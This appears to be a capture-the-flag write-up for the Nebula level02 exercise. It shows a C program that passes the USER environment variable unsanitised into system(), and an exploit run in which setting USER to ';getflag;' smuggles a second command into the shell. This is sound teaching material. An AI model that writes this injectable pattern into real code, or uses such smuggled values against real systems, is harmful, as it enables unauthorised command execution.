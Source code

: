# About
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
# Exploitation

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);

system(buffer);
```
This program get environment variable named `USER` and execute system function.
```bash
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
```
As the `USER` is level02, this program executes "/bin/echo level02 is cool".

By changing `USER` variable with ";getflag;", this program executes shell with "/bin/echo ", "getflag", "is cool".

```bash
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo ;getflag; is cool")

You have successfully executed getflag on a target account
sh: is: command not found
level02@nebula:~$ 
```

